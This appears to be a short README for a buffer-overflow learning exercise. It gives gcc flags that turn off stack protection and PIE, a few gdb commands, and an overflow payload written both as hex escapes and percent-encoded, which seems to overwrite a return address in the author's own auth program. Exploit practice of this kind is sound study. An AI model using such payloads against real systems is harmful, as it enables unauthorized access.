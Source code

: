 # buffer_overflow_attack
it important to notice that we must install mingw compiler first
for windows run gcc -g -fno-stack-protector main.c -o auth -W -no-pie -lws2_32 //the -g is for debugging and the rest is to make sure that stack pointer is not protected
now run the ./file_name // the exe file
b function_name // breakpoint
p var_name // print the details of the var (including address in the stack pointer)


\x00\x00\x00\x00\x00\xee\x02\x00\x00\x00\x00\x00\x00\x90\xfc\x61\x00\x00\x00\x00\x00\x21\x18\x40
%00%00%00%00%00%ee%02%00%00%00%00%00%00%90%fc%61%00%00%00%00%00%21%18%40
